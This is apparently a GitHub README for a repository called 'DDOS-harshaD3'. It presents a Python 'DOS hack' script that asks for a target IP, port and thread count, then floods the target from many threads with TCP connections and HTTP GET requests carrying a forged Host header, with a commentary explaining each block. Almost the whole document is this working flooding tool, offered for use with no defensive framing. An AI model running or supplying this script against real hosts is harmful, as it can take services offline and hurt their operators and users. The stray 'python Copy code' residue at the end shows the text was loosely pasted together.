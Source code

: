 # DDOS-harshaD3

![Cool Typography Boo Halloween Store Logo](https://github.com/Harshavardhanraju99/DDOS-harshaD3/assets/160013343/590fba29-1f58-45de-9ebc-4e8b603d14f0)


![Black Modern Breaking News Instagram Post](https://github.com/Harshavardhanraju99/DDOS-harshaD3/assets/160013343/a3d5d752-b53f-48a0-bb83-ad1b72a825c7)


# DOS hack python script ...........!

 import socket
 import threading 

-->*These lines import necessary modules from Python's standard library. socket is used for creating network sockets, and threading is used for creating and managing threads.*

target = input("Insert target’s IP: ")
port = int(input("Insert Port: "))
num_threads = int(input("Insert number of Threads: "))

-->*These lines prompt the user to input the IP address of the target server, the port number to attack, and the number of threads (connections) to create for the attack. The input() function is used to take input from the user, and int() is used to convert the input to integers where necessary.*

![image](https://github.com/Harshavardhanraju99/DDOS-harshaD3/assets/160013343/36e370c6-71f7-4174-afa5-e90ac4d8edac)

fake_ip = '44.197.175.168'
attack_num = 0

-->*Here, fake_ip is assigned a dummy IP address which will be used in the forged HTTP request header. attack_num is initialized to keep track of the number of requests sent during the attack.*

def attack():
    global attack_num
    while True:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((target, port))
            s.send(f"GET /{target} HTTP/1.1\r\n".encode('utf-8'))
            s.send(f"Host: {fake_ip}\r\n\r\n".encode('utf-8'))
            s.close()
            attack_num += 1
            print(f"Attack number: {attack_num}")
        except Exception as e:
            print(f"Error: {e}")
            
-->*This function attack() is defined to simulate the DoS attack. It continuously tries to establish a connection to the target server using TCP/IP sockets (socket.socket()), sends a fake HTTP GET request with a forged IP address in the header, increments the attack_num counter, and prints the number of attacks. If an exception occurs during the attack, it prints the error message.*


threads = []
for _ in range(num_threads):
    thread = threading.Thread(target=attack)
    thread.start()
    threads.append(thread)
    
-->*These lines create a list threads to store the threads created for the attack. It then creates the specified number of threads (num_threads) by looping through and calling the attack() function as the target for each thread. Each thread is started (thread.start()) and added to the threads list.*
for thread in threads:
    thread.join()
    
-->*Finally, this loop waits for all threads to finish executing (thread.join()). It ensures that the main program waits for all threads to complete before it terminates.*



Importing Libraries:

python
Copy code
import socket
import threading
